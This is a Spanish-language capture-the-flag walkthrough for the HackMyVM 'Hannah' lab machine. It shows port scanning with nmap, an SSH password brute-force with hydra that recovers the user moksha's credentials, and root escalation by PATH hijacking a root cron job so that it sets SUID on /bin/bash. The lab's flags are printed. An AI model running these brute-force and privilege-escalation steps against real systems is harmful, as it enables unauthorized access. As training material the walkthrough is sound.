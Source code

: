 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Hannah HackMyVM (Easy - Linux)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 03:55 EDT
Nmap scan report for 192.168.5.37
Host is up (0.00095s latency).

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 5f:1c:78:36:99:05:32:09:82:d3:d5:05:4c:14:75:d1 (RSA)
|   256 06:69:ef:97:9b:34:d7:f3:c7:96:60:d1:a1:ff:d8:2c (ECDSA)
|_  256 85:3d:da:74:b2:68:4e:a6:f7:e5:f5:85:40:90:2e:9a (ED25519)
|_auth-owners: root
80/tcp  open  http    nginx 1.18.0
|_http-title: Site doesn't have a title (text/html).
| http-robots.txt: 1 disallowed entry 
|_/enlightenment
|_auth-owners: moksha
|_http-server-header: nginx/1.18.0
113/tcp open  ident?
|_auth-owners: root
MAC Address: 08:00:27:D9:95:A5 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.71 seconds
```

## Escalate user moksha

Veremos que hay `2` puertos interesantes el `80` y el `113`, ya de primeras en el escaneo de `nmap` vemos un usuario potencial que se llama `moksha` que esta en esta linea:

```
|_auth-owners: moksha
```

Tambien estamos viendo un posible directorio indexado por el `robots.txt` que esta en esta otra liena:

```
|_/enlightenment
```

Si nos metemos como directorio web no veremos que nos cargue, nos pone un `404` por lo que no existe, vamos a probar a tirar un ataque de fuerza bruta con el usuario `moksha` a ver si hay suerte.

### Hydra

```shell
hydra -l moksha -P <WORDLIST> ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-11 04:01:06
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ssh://192.168.5.37:22/
[22][ssh] host: 192.168.5.37   login: moksha   password: hannah
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 17 final worker threads did not complete until end.
[ERROR] 17 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-11 04:01:29
```

Veremos que hemos obtenido las credenciales del usuario `moksha` por lo que vamos a conectarnos por `SSH`.

### SSH

```shell
ssh moksha@<IP>
```

Metemos como contraseña `hannah` y veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
HMVGGHFWP2023
```

## Escalate Privileges

Si leemos las tareas programadas del sistema veremos lo siguiente:

```shell
cat /etc/crontab
```

Info:

```
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
* * * * * root touch /tmp/enlIghtenment
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
```

Vemos unas lineas bastante interesantes que son las siguientes:

```

PATH=/usr/local/sbin:/usr/local/bin:/sbin:/media:/bin:/usr/sbin:/usr/bin

* * * * * root touch /tmp/enlIghtenment
```

Vamos a intentar buscar alguna carpeta en la que podamos escribir de forma libre dentro de ese `PATH`, encontramos la carpeta llamada `/media` la cual tenemos todos los permisos para crear cualquier archivo, vamos a realizar un `Path Hijacking` ya que se esta utilizando antes que la del `/bin` lo haremos de la siguiente forma:

```shell
cd /media
touch touch
nano touch

#Dentro del nano
#!/bin/bash

chmod u+s /bin/bash
```

Lo guardamos y le establecemos permisos de ejecucion.

```shell
chmod +x touch
```

Ahora solo tendremos que esperar un rato y si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1234376 mar 27  2022 /bin/bash
```

Vemos que ha funcionado, por lo que escalaremos a `root`.

```shell
bash -p
```

Info:

```
bash-5.1# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
HMVHAPPYNY2023
```
